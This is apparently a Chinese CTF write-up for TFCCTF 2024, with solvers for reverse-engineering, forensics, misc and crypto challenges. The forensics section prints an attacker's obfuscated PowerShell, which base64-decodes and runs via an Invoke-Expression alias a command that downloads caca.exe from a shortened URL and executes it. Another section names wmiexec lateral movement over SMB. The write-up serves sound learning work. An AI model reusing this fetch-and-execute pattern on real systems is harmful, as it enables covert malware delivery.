










# TFCCTF 2024 wp

## Reverse

### Signal

- [x] solved

直接ida64反编译，找Handle开头的函数，里面的if比较字符一个个拼起来即为flag

### license

- [x] solved

~~~c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  puts("Please enter your license key to use this program!");
  fgets(src, 18, stdin);
  if ( strlen(src) != 17 )
    exit(0);
  if ( src[16] == '\n' )
    src[16] = 0;
  strncpy(dest, src, 8uLL);
  byte_55C111767088 = 0;
  if ( (unsigned int)sub_55C111764209((__int64)dest) == 1 )
  {
    puts("Nope");
    exit(0);
  }
  if ( byte_55C111767068 != 45 )	// '-'
    exit(0);
  strncpy(byte_55C111767090, byte_55C111767069, 8uLL);
  if ( (unsigned int)sub_55C111764345((__int64)byte_55C111767090) == 1 )
  {
    puts("Nope");
    exit(0);
  }
  puts("Congrats! Get the flag on remote.");
  return 0LL;
}
~~~

两个加密函数sub_55C111764209和sub_55C111764345

~~~c
__int64 __fastcall sub_55C111764209(__int64 a1)
{
  int v1; // eax
  int i; // [rsp+18h] [rbp-18h]
  int j; // [rsp+1Ch] [rbp-14h]
  char v5[8]; // [rsp+20h] [rbp-10h]
  unsigned __int64 v6; // [rsp+28h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  for ( i = 0; i <= 7; ++i )
  {
    v1 = i % 3;
    if ( i % 3 == 2 )
    {
      v5[i] = *(_BYTE *)(i + a1) - 37;
    }
    else if ( v1 <= 2 )
    {
      if ( v1 )
      {
        if ( v1 == 1 )
          v5[i] = *(_BYTE *)(i + a1) + 16;
      }
      else
      {
        v5[i] = *(_BYTE *)(i + a1) ^ 0x5A;
      }
    }
    v5[i] ^= 0x33u;
  }
  for ( j = 0; j <= 7; ++j )
  {
    if ( (unsigned __int8)v5[j] != aXsl3bdxp[j] )
      return 1LL;
  }
  return 0LL;
}
~~~

这个函数看上去很简单，实际也很简单，但是还原后发现字符不是可打印字符，这里当时卡住了我好久，后面才反应过来要用自动化工具传输字节，直接上pwntools

~~~python
s = "Xsl3BDxP"
flag = []
for i in range(len(s)):
    tmp = ord(s[i])^0x33
    if i % 3 == 2:
        flag.append(tmp+37)
    elif i % 3 == 1:
        flag.append(tmp-16)
    else:
        flag.append(tmp^0x5a)
flag.append(ord("-"))
s = "mzXaPLzR"
for i in range(len(s)):
    if ord(s[i]) < 65 + 26:
        if ord(s[i])-65+48<65:
            flag.append(ord(s[i])-65+48+26)
        else:
            flag.append(ord(s[i])-65+48)
    else:
        if ord(s[i])-97+92<97:
            flag.append(ord(s[i])-97+92+26)
        else:
            flag.append(ord(s[i])-97+92)
print(flag)
content = bytes(flag) + b'\n'
print(content, len(content))

from pwn import *

conn = remote("challs.tfcctf.com", 32303)
# conn.recvuntil(b"Please enter your license key to use this program!\n")
conn.sendline(content)
print(conn.recv())
~~~

### x8

- [ ] solved

给了x8和program.bin，linux上运行发现是需要参数file，并配上bin文件。题目要求输入字符串，输错返回Nope

ida64定位关键函数run（在读取文件后）

动态调试进入while循环，此时不要看反编译的代码，逻辑比较乱，直接看汇编代码，可以看到两次call，第一次call搞不清楚指向len函数，但第二次call前rsi指向的正是bin文件的内容地址，call指向execute

因此大概可以猜测出这个循环里有处理bin文件内容，尝试动态调试到循环结束，结果发现需要输入

输入完跳出循环查看bin存储的地方（0x7ffd1114af18），发现已经出现了`Yep\n`、`Nope\n`的字眼

同时往后找可以看到输入的内容

因此这道题算是一道VMprotect类题，program.bin充当的是一个小型存储区和指令，里面必然有flag各种处理完后的结果。结合前面两个call可知一个是取指长度，另一个执行

所以断在第二个执行call，不断F9在循环里跳，慢慢找规律，首先发现前头都在异或0x41（从下图那串连着的0x40都变为0x1，0x43变为0x2看出来的）

这一步完没走几步F9就碰到了要求输入，输入测试`123456`，此时可以在数据区后方找到输入字符串存储的位置

之后实在不会了，不知道怎么导出这里面的寄存器操作，暂时搁置留待未来学习更多解决

这是能找到的wp：

* https://www.ctfiot.com/197599.html
* https://blog.gordic.rs/posts/ctf/tfc-ctf-2024/
* https://github.com/tomadimitrie/x8

### Brave Traveler

- [ ] solved

~~~c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+Fh] [rbp-31h] BYREF
  char v5[24]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v6; // [rsp+28h] [rbp-18h]

  v6 = __readfsqword(0x28u);
  std::allocator<std::set<char>>::allocator(&v4, argv, envp);
  std::vector<std::set<char>>::vector(v5, 128LL, &v4);
  std::allocator<std::set<char>>::~allocator(&v4);
  generateMap(v5);
  traverse(v5);
  std::vector<std::set<char>>::~vector(v5);
  return 0;
}
~~~

关键看v5，它是一个大小为128的向量数组，先看generateMap，可以看到进行了插入操作

~~~c
unsigned __int64 __fastcall generateMap(__int64 a1)
{
  v29 = __readfsqword(0x28u);
  v1 = std::vector<std::set<char>>::operator;
  v28 = 10;
  std::set<char>::insert(v1, &v28);
  v2 = std::vector<std::set<char>>::operator;
  v28 = 72;
  std::set<char>::insert(v2, &v28);
  v3 = std::vector<std::set<char>>::operator;
  v28 = 100;
  std::set<char>::insert(v3, &v28);
  v4 = std::vector<std::set<char>>::operator;
  v28 = 125;
  std::set<char>::insert(v4, &v28);
  v5 = std::vector<std::set<char>>::operator;
  v28 = 108;
  std::set<char>::insert(v5, &v28);
  v6 = std::vector<std::set<char>>::operator;
  v28 = 117;
  std::set<char>::insert(v6, &v28);
  v7 = std::vector<std::set<char>>::operator;
  v28 = 99;
  std::set<char>::insert(v7, &v28);
  v8 = std::vector<std::set<char>>::operator;
  v28 = 97;
  std::set<char>::insert(v8, &v28);
  v9 = std::vector<std::set<char>>::operator;
  v28 = 48;
  std::set<char>::insert(v9, &v28);
  v10 = std::vector<std::set<char>>::operator;
  v28 = 107;
  std::set<char>::insert(v10, &v28);
  v11 = std::vector<std::set<char>>::operator;
  v28 = 103;
  std::set<char>::insert(v11, &v28);
  v12 = std::vector<std::set<char>>::operator;
  v28 = 46;
  std::set<char>::insert(v12, &v28);
  v13 = std::vector<std::set<char>>::operator;
  v28 = 101;
  std::set<char>::insert(v13, &v28);
  v14 = std::vector<std::set<char>>::operator;
  v28 = 53;
  std::set<char>::insert(v14, &v28);
  v15 = std::vector<std::set<char>>::operator;
  v28 = 70;
  std::set<char>::insert(v15, &v28);
  v16 = std::vector<std::set<char>>::operator;
  v28 = 67;
  std::set<char>::insert(v16, &v28);
  v17 = std::vector<std::set<char>>::operator;
  v28 = 106;
  std::set<char>::insert(v17, &v28);
  v18 = std::vector<std::set<char>>::operator;
  v28 = 121;
  std::set<char>::insert(v18, &v28);
  v19 = std::vector<std::set<char>>::operator;
  v28 = 98;
  std::set<char>::insert(v19, &v28);
  v20 = std::vector<std::set<char>>::operator;
  v28 = 111;
  std::set<char>::insert(v20, &v28);
  v21 = std::vector<std::set<char>>::operator;
  v28 = 32;
  std::set<char>::insert(v21, &v28);
  v22 = std::vector<std::set<char>>::operator;
  v28 = 81;
  std::set<char>::insert(v22, &v28);
  v23 = std::vector<std::set<char>>::operator;
  v28 = 102;
  std::set<char>::insert(v23, &v28);
  v24 = std::vector<std::set<char>>::operator;
  v28 = 115;
  std::set<char>::insert(v24, &v28);
  v25 = std::vector<std::set<char>>::operator;
  v28 = 95;
  std::set<char>::insert(v25, &v28);
  v26 = std::vector<std::set<char>>::operator;
  v28 = 105;
  std::set<char>::insert(v26, &v28);
  return v29 - __readfsqword(0x28u);
}
~~~

再看traverse，可知对之前的向量数组进行了遍历

~~~c
unsigned __int64 __fastcall traverse(__int64 a1)
{
  v8 = __readfsqword(0x28u);
  std::queue<char>::queue<std::deque<char>,void>(v7);
  LOBYTE(v5) = 0;
  std::queue<char>::push(v7, &v5);											// 初始为0
  while ( (unsigned __int8)std::queue<char>::empty(v7) != 1 )				// 检查队列是否为空
  {
    v3 = *(_BYTE *)std::queue<char>::front(v7);								// 取出队列头部元素
    std::operator<<<std::char_traits<char>>(&std::cout, (unsigned int)v3);	// 打印该元素
    std::queue<char>::pop(v7);												// 弹出
    v6 = std::vector<std::set<char>>::operator;					// 从数组中取出该向量
    v4 = std::set<char>::begin(v6);											// 设置迭代器
    v5 = std::set<char>::end(v6);
    while ( (unsigned __int8)std::operator!=(&v4, &v5) )					// 遍历完成
    {
      v2 = *(_BYTE *)std::_Rb_tree_const_iterator<char>::operator*(&v4);	// 取值
      std::queue<char>::push(v7, &v2);										// 插入队列
      std::_Rb_tree_const_iterator<char>::operator++(&v4);					// 迭代器下一个
    }
  }
  std::queue<char>::~queue(v7);
  return v8 - __readfsqword(0x28u);
}
~~~

但是初始为0打印出来的是`go0d luck.\n`，并不是flag，由此合理猜测初始值为其他，范围是generateMap里下标

写脚本打印所有可能

~~~python
import re

with open("tree") as f:	# 存的generateMap函数内容
    content = f.read()
v1 = list(map(int, re.findall(r"a1, (.*?)LL", content)))	# 正则提取
v2 = list(map(int, re.findall(r"v28 = (.*?);", content)))
print(len(v1)==len(v2))
print(v1)
print(v2)
tree = [[] for i in range(128)]
for i in range(len(v1)):
    tree[v1[i]].append(v2[i])
tree = [sorted(i) for i in tree]
print(tree)
for i in set(v1):
    queue = [i]
    flag = ""
    while len(queue):
        flag += chr(queue[0])
        for j in tree[queue[0]]:
            queue.append(j)
        queue = queue[1:]
    if len(queue) == 0:
        print(f"{i}, {flag.encode()}")
~~~

打印内容如下，可以看到既有`go0d luck.\n`又有flag的形式`{ea5ybfs_HQji}`

~~~
True
[46, 95, 111, 105, 100, 100, 108, 101, 111, 108, 0, 107, 123, 97, 84, 70, 95, 97, 53, 103, 100, 95, 53, 53, 115, 81]
[10, 72, 100, 125, 108, 117, 99, 97, 48, 107, 103, 46, 101, 53, 70, 67, 106, 121, 98, 111, 32, 81, 102, 115, 95, 105]
[[103], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [10], [], [], [], [], [], [], [98, 102, 115], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [], [67], [], [], [], [], [], [], [], [], [], [], [105], [], [], [70], [], [], [], [], [], [], [], [], [], [], [72, 81, 106], [], [53, 121], [], [], [32, 108, 117], [97], [], [111], [], [125], [], [46], [99, 107], [], [], [48, 100], [], [], [], [95], [], [], [], [], [], [], [], [101], [], [], [], []]
0, b'\x00go0d luck.\n'
97, b'a5ybfs_HQji}'
100, b'd luck.\n'
101, b'ea5ybfs_HQji}'
70, b'FC'
103, b'go0d luck.\n'
105, b'i}'
107, b'k.\n'
108, b'lck.\n'
46, b'.\n'
111, b'o0d luck.\n'
81, b'Qi}'
115, b's_HQji}'
84, b'TFC'
53, b'5bfs_HQji}'
123, b'{ea5ybfs_HQji}'
95, b'_HQji}'
~~~

因此flag为`TFCCTF{ea5ybfs_HQji}`

### Virtual-rev

- [ ] solved

too damn hard

### Functional

- [ ] solved

too damn hard

### mcknight

- [ ] solved

too damn hard

## Forensics

这类题感觉完全可以划到misc里去，就是取证类题目。两道题目共同文件`Challenge.evtx`

### He did what

- [x] solved

> After the attacker connected to our server, he managed to extract some random data, however encrypted. We trust to decrypt it and get the flag.

evtx文件windows下可以直接打开，属于windows日志记录器；直接筛选日志选择详细

 

获得多个powershell远程执行命令

拼接代码得到

~~~
$w9r4pBoZlnfIzH1keCtX = $FBtFFDr8NXp5.ToCharArray() ; [array]::Reverse($w9r4pBoZlnfIzH1keCtX) ; -join $w9r4pBoZlnfIzH1keCtX 2>&1> $null ;
$FBtFFDr8NXp5 = "=oQDiUGel5SYjF2YiASZslmR0V3TtASKpkiI90zZhFDbuJGc5MEZoVzQilnVIRWe5cUY6lTeMZTTINGMShUYigyZulmc0NFN2U2chJUbvJnR6oTX0JXZ252bD5SblR3c5N1WocmbpJHdTRXZH5COGRVV6oTXn5Wak92YuVkL0hXZU5SblR3c5N1WoASayVVLgQ3clVXclJlYldVLlt2b25WS" ;
$SCr = [SyStem.TexT.encODINg]::uTF8.GeTsTrInG([SYSteM.coNVErT]::froMBaSe64STrinG("$w9r4pBoZlnfIzH1keCtX")) ;
.\caca.exe "VHEEVH}x3uwcnad6u3eac3pvaj6tf"
$uqR = "i"+"N"+"V"+"o"+"k"+"e"+"-"+"E"+"X"+"p"+"r"+"E"+"S"+"S"+"i"+"O"+"n" ; NEW-aLIaS -naME pWN -VaLuE $uqR -FORCe ; PWN $SCr ;
~~~

可以发现有个base64解密，处理的字符串首先要转序下，解密得到

~~~
Invoke-WebRequest -Uri ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("aHR0cHM6Ly9zaG9ydHVybC5hdC9pbnl1ag=="))) -OutFile "caca.exe"
~~~

再次base64解密得到

~~~
https://shorturl.at/inyuj
~~~

打开发现是谷歌云盘存储的`caca.exe`，exeinfo得知为NET编写，但是里面是fakeflag

~~~c#
using System;
using Microsoft.VisualBasic;
using Microsoft.VisualBasic.CompilerServices;

// Token: 0x02000005 RID: 5
[StandardModule]
internal sealed class Module1
{
	// Token: 0x06000008 RID: 8 RVA: 0x000020FC File Offset: 0x000002FC
	[STAThread]
	public static void Main()
	{
		Module1.td4306d885b1c98544112b830f9bd97c6();
	}

	// Token: 0x06000009 RID: 9 RVA: 0x00002108 File Offset: 0x00000308
	public static void td4306d885b1c98544112b830f9bd97c6()
	{
		string str = "";
		string text = "TFCCTF{fake_flag_haha}";
		int num = Strings.Len(text);
		checked
		{
			for (int i = 1; i <= num; i++)
			{
				str += Conversions.ToString(Strings.Chr(Strings.Asc(Strings.Mid(text, i, 1)) + 2));
			}
		}
	}
}
~~~

结合前面远程执行命令传入的参数`"VHEEVH}x3uwcnad6u3eac3pvaj6tf"`

~~~python
"".join([chr(ord(i)-2) for i in "VHEEVH}x3uwcnad6u3eac3pvaj6tf"])
~~~

得到结果加上后括号得到`TFCCTF{v1sual_b4s1c_a1nt_h4rd}`

### SM What

- [ ] solved

> An attacker managed to gain foothold in our network, but we managed to capture the connection to our server. Analyze the file and identify the tool used to connect, the service it connected to, its IP address, and the shared resources folder.
> Flag format: TFCCTF{tool_service_ip_share}
> Example: TFCCTF{ntlmrelayx_rdp_192.168.0.1_logs$}
> Note: The flag is in all lowercase (except for TFCCTF).

做的时候想复杂了，没想到ip可以是本机，比赛时候也搜索到了下面的`Process Creation`日志记录，但看到127.0.0.1直接pass掉了，吸取教训

所以这里可以直接得知工具`wmiexec`，ip `127.0.0.1`，共享文件夹`admin$`，

然后直接谷歌搜索这串命令找到了个链接https://labs.withsecure.com/publications/attack-detection-fundamentals-discovery-and-lateral-movement-lab-5

可以确定工具为`wmiexec`，连接的服务为`smb`，因此flag为`TFCCTF{wmiexec_smb_127.0.0.1_admin$}`

## Misc

### secret_message

- [ ] solved

又是想复杂了

~~~python
import random
import secrets

def hide(string, seed, shuffle):
    random.seed(seed)
    byts = []
    for _ in range(len(string)):
        byts.append(random.randint(0, 255))

    random.seed(shuffle)
    for i in range(100):
        random.shuffle(byts)

    return bytes([a^b for a, b in zip(string, byts)])

actual_random_number = secrets.randbelow(1_000_000_000_000_000_000)

flag = open("flag", "rb").read()

print("Give me 6 different seeds:")

seed_1 = int(input("Seed 1: "))
seed_2 = int(input("Seed 2: "))
seed_3 = int(input("Seed 3: "))
seed_4 = int(input("Seed 4: "))
seed_5 = int(input("Seed 5: "))
seed_6 = int(input("Seed 6: "))

seeds_set = set([seed_1, seed_2, seed_3, seed_4, seed_5, seed_6])

if len(seeds_set) < 6:
    print("The seeds must be different!")
    exit()

hidden_flag_1 = hide(flag, seed_1, actual_random_number)
hidden_flag_2 = hide(hidden_flag_1, seed_2, actual_random_number)
hidden_flag_3 = hide(hidden_flag_2, seed_3, actual_random_number)
hidden_flag_4 = hide(hidden_flag_3, seed_4, actual_random_number)
hidden_flag_5 = hide(hidden_flag_4, seed_5, actual_random_number)
hidden_flag_6 = hide(hidden_flag_5, seed_6, actual_random_number)

print(f"Here is your result:", hidden_flag_6)
~~~

有个特性random.seed传入绝对值相等时，random打乱顺序一致，所以输入一正一负即可还原打乱的列表

## Crypto

### genetics

- [x] solved

~~~python
def dna_to_binary(dna_seq):
    dna_to_binary_map = {
        'A': '00',
        'C': '01',
        'G': '10',
        'T': '11'
    }

    binary_seq = ""
    for base in dna_seq:
        binary_seq += dna_to_binary_map[base]

    return binary_seq

def binary_to_text(binary_seq):
    text = ""
    for i in range(0, len(binary_seq), 8):
        byte = binary_seq[i:i + 8]
        text += chr(int(byte, 2))

    return text

# 假设DNA序列
dna_sequence = "CCCA CACG CAAT CAAT CCCA CACG CTGT ATAC CCTT CTCT ATAC CGTA CGTA CCTT CGCT ATAT CTCA CCTT CTCA CGGA ATAC CTAT CCTT ATCA CTAT CCTT ATCA CCTT CTCA ATCA CTCA CTCA ATAA ATAA CCTT CCCG ATAT CTAG CTGC CCTT CTAT ATAA ATAA CGTG CTTC"  # 这对应的二进制序列应该是 00011011
dna_sequence = dna_sequence.replace(" ", "")
# 解密过程
binary_sequence = dna_to_binary(dna_sequence)
original_text = binary_to_text(binary_sequence)

print(original_text)	# TFCCTF{1_w1ll_g3t_th1s_4s_4_t4tt00_V3ry_s00n}
~~~

### rotator-cuffs

- [x] solved

~~~python
from secrets import SECRET, x1, x2, y1, y2

sumyum = -142226769181911294109604985414279966698269380324397182385943224688881786967396493297107323123238846393606215646973028804858833605857511769169835160302020010947120438688346678912969985151307036771093126928042899151991372646137181873186360733201445140152322209451057973604096364822332301687504248777277418181289153882723092865473163310211285730079965167100462695990655758205214602292622245102893445811728006653275203674798325843446182682402905466862314043187136542260285271179956030761086907321077282094937573562503816663264662117783270594824413962461600402415572179393223815743833171899844403295401923754406401502029098878225426758204788

assert sumyum == 2 * x1 ** 2 - SECRET * y1 ** 2 + 2 * x2 ** 2 - SECRET * y2 ** 2

F = RealField(3456)
x = vector(F, [x1, x2])
y = vector(F, [y1, y2])

for _ in range(10000):
    theta = F.random_element(min=-5 * pi, max=5 * pi)
    R = matrix(F, [[cos(theta), -sin(theta)], [sin(theta), cos(theta)]])
    x = R * x
    y = R * y

print("resulting_x =", x)
print("resulting_y =", y)
#resulting_x = (3.3634809129087361339072596725006530600959848462815297766832600914180365498172745779530909095267862889993244875375870115862675521807203899602656875152466204714275847395081849947663071267678766620524700684572851632968584152642766533856599351512856580709762480161587856072790441655306539706390277559619708164477066112096159734609814163507781608041425939822535707080207842507025990454423454350866271037975269822168384397403714076341093853588894719723841956801405249658560486108807190027518922407932998209533025998785987344569930974892824749931597842343369782141668038797305601028366704322107431479213165353278773002704707347001056980736352878716736155054293350509670339144379602697176068785416128203382284653052813910539052285224499161723972390574800570738938264516350981139157860135237512937090793549860152173756751719627025142858529263243314917653507237003568510016357713402278753999645732592631577726849749929789275649985363293274521704758513276997442425705172979362522303209937874019044195572717894784790824040985970678829869212168596332338e228, 4.3493076236586169242233212405270398931813271488805260703904730395387317512159124699671617536806847379014763743850012966440449858042327139796085868934120939346500622666309663813415016921760622643752056516232426324399548704613192843351795229042500735885925583510203795565452553753954474949980588780332651769544235511465216034600990329267883327087177217125655503845919331440817328958054102807738186874040636118222352351053320953917165679774298608790659071127811941909136888169274293065733698380573486079052876249484455409206182001827225690775874445171478338344209529207109172368590360722150559332665968826925103060717742483611155201852629766859356827518117986215929527812137774656124580645282319815982553388185475874607903050755710964732279490338614504903256117014312989278124177060468718045944298976827788272885547066724342578660563396148909159051946415261351324693896674313199869788279492452177771905587881622085592044441472137286330359635594402564357596784568377870545793505212074411425362120275312322293627143588322908897500139505746513232e228)
#resulting_y = (3.0086123485184949854819528432444522887263618452152977201477700454454717599185922285792607291484161348863603668674724666302028473336653202339259214779198337146709052083562504123644969759313504022148939497579033947489964578987257010705347661159352495880621564046451129149321751369899157697461990748527068553919767557375414807745137776378672423131583632676118768803623661016450513713378889178790819115525404124475586398119768281556573742250499881136366816528002891506377591473809774876327335425713426558761290418087432306668623923825516541279687269109753438014462223886767964900168026643719447209474190574704192551865457553267219179816090151816092471203713238427208397671093453024024773606469951052196613699816481289760243547361942029869165939022611782658000517871759272476768999453412473058498224382162775678590320117678687959374599497850317809926761224934950410879753727042047871292717229649696383856159211062622325024918849176324424823611459590717866478574927162324917352318674258311617781845396479605897293293787546058229588461669469113001e228, 4.1955438730064492244518395125687091233417321001179084616477593364143186962035096742717340249485256810878365124925979444527539802357032735868877910266504910589105346718553503670072791148806000734099122372428956062737130602189826489676949800396857262364104813055382317498461363421406914514918460816121876800728600531432610837129788010503804927836206596876591613685011706833895602299866191433190745884295362337967940063679204541643670409168084686978205876941245671248753306754892761206974604980311577415661960800437927228624982030061751022139301406066860249918396002252864930009083759551916555623475795108943840654272107400479044754688171126386094896825019962082090350188892677712358612478027143147182776057102433244569971150928964257290752485837202929975257858813456753394801152212850446322739077604336730800210171231609831225616780923301071587159265696870229784689201181607735865814975046649574472138172333744474559659785291954987787639082881571990180182337133038177924408020273887276582566592470019342076814034084107444178243083855840959209e228)
~~~

直接假设每次$\theta$值相等，我手动计算了下矩阵发现$R^n*[x_1,x_2]=[cosn\theta*x_1-sinn\theta*x_2,cosn\theta*x_2+sinn\theta*x_1]$

又因为`theta = F.random_element(min=-5 * pi, max=5 * pi)`正态分布，所以相当于$n*\theta=0$，所以$R^n*[x_1,x_2]=[x_1,x_2]$，y同理，所以打印的直接就是x1、x2、y1、y2等，计算即可

手动复制，去掉后面的0，转为字节得到flag

~~~python
print(long_to_bytes(5335971066482140436003581690050199054591188075977428942804432536688457023564955486610438962101378611463168466363605649464894880346544062963948191685638478453586690477145723991165))
# b"TFCCTF{r0t4t3_and__g0_furth3r...s4me_th1ng...schr0d1ng3r's_r0tat1on...not}"
~~~

